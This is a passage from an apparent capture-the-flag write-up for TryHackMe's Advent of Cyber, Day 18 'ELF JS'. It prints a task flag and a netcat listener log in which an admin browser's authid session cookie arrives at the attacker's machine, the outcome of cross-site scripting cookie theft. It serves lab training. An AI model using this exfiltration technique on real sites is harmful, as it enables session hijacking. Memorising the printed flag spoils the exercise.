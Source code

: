 
  THM{c8eeb0468febbadea859baeb33b2541b}

---

### [Task 23] [Day 18] ELF JS

- What is the admin's authid cookie value?

  **Solution:**

  *After sign up/login*

  <img src="https://github.com/Faridbg/THM_Advent_of_Cyber/blob/main/resources/images/Task_23_%231.png" style="zoom:150%;" />

  ~~~bash
  $ sudo nc -lvkp 80
  listening on [any] 80 ...
  10.10.28.231: inverse host lookup failed: Unknown host
  connect to [10.9.90.233] from (UNKNOWN) [10.10.28.231] 51004
  GET /?authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
  Host: 10.9.90.233
  Connection: keep-alive
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
  Referer: http://localhost:3000/admin
  Accept-Encoding: gzip, deflate
  ~~~
